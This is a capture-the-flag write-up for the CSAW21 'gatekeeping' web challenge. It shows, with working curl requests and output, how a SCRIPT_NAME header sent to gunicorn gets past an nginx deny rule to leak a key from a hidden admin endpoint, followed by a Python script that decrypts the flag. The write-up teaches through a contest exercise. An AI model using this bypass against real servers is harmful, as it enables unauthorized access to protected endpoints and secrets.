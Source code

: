 # gatekeeping | CSAW21 Quals

## Description 

My previous flag file got encrypted by some dumb ransomware. They didn't even tell me how to pay them, so I'm totally out of luck. All I have is the site that is supposed to decrypt my files (but obviously that doesn't work either).

Author: itszn, Ret2 Systems

http://web.chal.csaw.io:5004/

## TL;DR

Bypass nginx with `SCRIPT_NAME` headers to access `/admin/key` endpoint and leak key, decrypt the file locally.

## Work

Running the given dockerfile shows us that the dockerfile installs gunicorn and nginx.
```
 => [2/6] RUN apt update   && apt install -y nginx   && pip3 install gunicorn flask pycrypto supervisor   && use  27.0s
```

Looking more into the source files, I found this piece in the source for app.py which describes a conversation between what I assume are two developers.

```
# <Alex> Is this safe?
# <Brad> Yes, because we have `deny all` in nginx.
# <Alex> Are you sure there won't be any way to get around it?
# <Brad> Here, I wrote a better description in the nginx config, hopefully that will help
# <Brad> Plus we had our code audited after they stole our coins last time      
# <Alex> What about dependencies?
# <Brad> You are over thinking it. no one is going to be looking. everyone we encrypt is so bad at security they would never be able to find a bug in a library like that
# ===       
@app.route('/admin/key')
def get_key():
    return jsonify(key=get_info()['key'])
```

Found this piece in app.py as well, which outlines decrypting the file. Remember this for later, because it will come handy.

```py
@app.route('/decrypt', methods=['POST'])
def decrypt():
    info = get_info()
    if not info.get('paid', False):
        abort(403, 'Ransom has not been paid')

    key = binascii.unhexlify(info['key'])
    data = request.get_data()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    return cipher.decrypt(data)
```

Found this piece in a .js file, looks for `key_id` in `/decrypt`
```js
    try {
      let res = await fetch('/decrypt', {
        method:'POST',
        headers: {
          key_id
        },
        body: data
      });
```

Here I put in the flag file to decrypt on the website, intercepted the request, and sent it to burpsuite. Inside burpsuite was a response that contained the `key_id`:

```
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
```

Here I got stuck, so I decided to look over the hidden chat. This particular line stuck out to me:

```
You are over thinking it. no one is going to be looking. everyone we encrypt is so bad at security they would never be able to find a bug in a library like that
```

I started to google (gunicorn)[https://github.com/benoitc/gunicorn/issues/226] and (nginx)[https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/] exploits. The gunicorn google turned up interesting behavior...

```
Well... Current behaviour is not what I expected.
I'd expect it to strip the SCRIPT_NAME of the PATH_INFO, if PATH_INFO starts with it.
And that doesn't break current behaviour, unless there are people out there that depend on their workers throwing IndexError and their proxies returning 500 errors.
```

Googling further into gunicorn exploits with `script_name`, I found (this)[https://stackoverflow.com/questions/63419829/nginx-and-gunicorn-wsgi-variables] stackoverflow post regarding the `script_name` variable.

```
The Gunicorn documentation suggests that you can specify SCRIPT_NAME through an HTTP header without any further explanation. Digging through the source code revealed that it accepts a non-standard header actually named SCRIPT_NAME. The following can be used to set SCRIPT_NAME for Gunicorn:

proxy_set_header SCRIPT_NAME /myapp;

PATH_INFO cannot be set. However, in my case PATH_INFO does not need to be set for Gunicorn because it automatically strips the SCRIPT_NAME prefix from PATH_INFO. With uWSGI I had to overwrite PATH_INFO to strip the SCRIPT_NAME prefix.
```

Reading through this post, I attempted to intercept the get request for `/admin/key` through burp, and add a `SCRIPT_NAME` header:

```
GET /f0ur3y3s/admin/key HTTP/1.1
Host: web.chal.csaw.io:5004
SCRIPT_NAME: /f0ur3y3s
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
```

However, this did not work as expected, and I know that Burp sometimes does some weird things while intercepting requests. I ditched Burpsuite and attempted to craft my own GET request from the server.
```
┌──(kali㉿kali)-[~]
└─$ curl -X GET http://web.chal.csaw.io:5004/f0ur3y3s/admin/key --header "SCRIPT_NAME:/f0ur3y3s" --header "key_id:05d1dc92ce82cc09d9d7ff1ac9d5611d"

{"key":"b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3"}
```

Success! Now we have the `key_id` and `key` used to encrypt the file. Remember the `decrypt` function in app.py? We can use that to decrypt the file locally.

```py
import binascii
from Crypto.Cipher import AES

keydata = 'b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3'

key = binascii.unhexlify(keydata)
with open('dist/flag.txt.enc', 'rb') as f:
    data = f.read()
iv = data[:AES.block_size]
data = data[AES.block_size:]
cipher = AES.new(key, AES.MODE_CFB, iv)
print(cipher.decrypt(data))
```

```
python breakthegate.py
b'o\x8f|\x10\xd4GJ\x8b\x14\xd6\x0f\xe7g\xc1/\xc5flag{gunicorn_probably_should_not_do_that}'

flag{gunicorn_probably_should_not_do_that}
```
## Flag

flag{gunicorn_probably_should_not_do_that}